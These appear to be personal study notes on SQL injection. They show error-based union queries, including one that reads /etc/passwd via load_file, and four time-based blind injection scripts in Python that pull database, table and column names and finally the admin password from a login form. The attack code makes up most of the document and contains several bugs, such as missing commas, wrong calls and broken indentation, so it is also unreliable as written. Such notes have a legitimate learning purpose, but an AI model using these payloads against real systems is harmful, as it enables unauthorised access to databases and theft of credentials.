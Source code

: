 
# SQLI Error based #


Is based on errors from the server. An important concept on the sql attacks is that we need to know how many columns have the tables. 
1 - It is important to start with "order by"
2 - Follow the attack with "union select" 1,2,3,4 (or the number of columns) or NULL,NULL,NULL 
3- enumerate elements of the database. union select database(),user(),load_file('/etc/passwd'),NULL.
4- we know the name of the data base, we now can enumerate the name of the columns:
' union select 1,table_name from information_schema.tables where table_schema="databasename"
5 - We can know now the columns on the tables too: ' union select 1, column_name from information_schema.columns where table_schema="colegio" and table_name="alumnos"


6 - we can know another databases :
' union select 1,schema_name from information_schema.schemata limit 1,1;(WE CAN LIMIT THE NUMBER OF THE OUTPUT THAT WE RETRIEVE) to the next will be 2,1..3,1..ETC.



NOTE: SOMETIMES WE CANT PUT strings  ON THE QUERYS but we can transform the string to hexadecimal

```
kali>echo "Database-name" | xxd -ps
48af5e4af2698f0a
```
He says that we need to omit the 0a of the end, now on the query we put something ike this:

```
UNION SELECT 1,table_name from information_schema.tables where table_schema=0x48af5e4af2698f;
```

# SQLI time based (BLIND) #

Another ways to do this;

This will not stop, because the first letter of the database is "Colegio" is "C"  not "a"
```
select username,password from alumnos where id= 1 and if(substr(database(),1,1)='a',sleep(5),1);
```
next character 2,1 ..3,1 .. etc

So he did the same exploit that he did in other ocasion, but we are going to do it  again.


This code is to guess the name of the database
```
#!/usr/bin/python3

import requests, time, sys , signal
from pwn import *

def def_handler(sig, frame):
    log.failure("Saliendo..")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

url= 'http://url00.php'
burp = {'http': 'http://127.0.0.1:8080'}# for tuneling querys on burpsuit
s = r'0123456789zxcvbnmasdfghjklñqwertyuiop'#this is improved by other tool on the other script that we did before
result=''

def check(payload):
    data_post ={
        'username': '%s' %payload
        'password': 'test'
    }
    time_start = time.time()
    content = request.post(url, data=data_post)
    time_end = time.time()

    if time_end - time_start > 5:
        return 1

p1= log.progress("Database")
p2= log.progress("Payload")

for i in range(0,10):
    for c in s:
       payload= "' or if (substr(database),%d,1='%c',sleep(5),1))-- -" % (i,c)
       
       p2.status ("%s" % payload)

       if check(payload):
           result += c
           p1.status("%s" result)
           break


log.info("DATABASE: %s" % payload)

```

So he discovered that the database was "admin"

Now we need to modify the code if we want to see the tables of the database.

This is the code

```
#!/usr/bin/python3

import requests, time, sys , signal
from pwn import *

def def_handler(sig, frame):
    log.failure("Saliendo..")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

url= 'http://url00.php'
burp = {'http': 'http://127.0.0.1:8080'}# for tuneling querys on burpsuit
s = r'0123456789zxcvbnmasdfghjklñqwertyuiop'#this is improved by other tool on the other script that we did before
result=''

def check(payload):
    data_post ={
        'username': '%s' %payload
        'password': 'test'
    }
    time_start = time.time()
    content = request.post(url, data=data_post)
    time_end = time.time()

    if time_end - time_start > 5:
        return 1

p2= log.progress("Payload")
for j in range(0,3):
    p1=log.progress("Tabla(%d)" % j)
    for i in range(1,10):
        for c in s:
           payload= "' or if (substr(select table_name from information_schema.tables where table_schema='admin' limit %d,1),%d,1)='%c',sleep(5),1)-- -" % (j,i,c)
       
               p2.status ("%s" % payload)

           if check(payload):
               result += c
               p1.status("%s" result)
               break


    p1.success("%s" % result)
    result=''

```

Now the columns

```
#!/usr/bin/python3

import requests, time, sys , signal
from pwn import *

def def_handler(sig, frame):
    log.failure("Saliendo..")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

url= 'http://url00.php'
burp = {'http': 'http://127.0.0.1:8080'}# for tuneling querys on burpsuit
s = r'0123456789zxcvbnmasdfghjklñqwertyuiop'#this is improved by other tool on the other script that we did before
result=''

def check(payload):
    data_post ={
        'username': '%s' %payload
        'password': 'test'
    }
    time_start = time.time()
    content = request.post(url, data=data_post)
    time_end = time.time()

    if time_end - time_start > 5:
        return 1

p2= log.progress("Payload")
for j in range(0,3):
    p1=log.progress("Columna(%d)" % j)
    for i in range(1,10):
        for c in s:
           payload= "' or if (substr(select table_name from information_schema.columns where table_schema='admin' and table_name='users' limit %d,1),%d,1)='%c',sleep(5),1)-- -" % (j,i,c)
       
               p2.status ("%s" % payload)

           if check(payload):
               result += c
               p1.status("%s" result)
               break


    p1.success("%s" % result)
    result=''

```

Now the table, (the password of admin)

```
#!/usr/bin/python3

import requests, time, sys , signal
from pwn import *

def def_handler(sig, frame):
    log.failure("Saliendo..")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

url= 'http://url00.php'
burp = {'http': 'http://127.0.0.1:8080'}# for tuneling querys on burpsuit
s = r'0123456789zxcvbnmasdfghjklñqwertyuiop'#this is improved by other tool on the other script that we did before
result=''

def check(payload):
    data_post ={
        'username': '%s' %payload
        'password': 'test'
    }
    time_start = time.time()
    content = request.post(url, data=data_post)
    time_end = time.time()

    if time_end - time_start > 5:
        return 1
p1=log.progress("Password")
p2= log.progress("Payload")

for i in range(1,40):
    for c in s:
        payload= "' or if (substr(select password from users where username='admin'),%d,1)='%c',sleep(5),1)-- -" % (i,c)
       
            p2.status ("%s" % payload)

            if check(payload):
               result += c
               p1.status("%s" result)
               break


    p1.success("%s" % result)
```


we can search the hash decrypt online, hashes decrypt online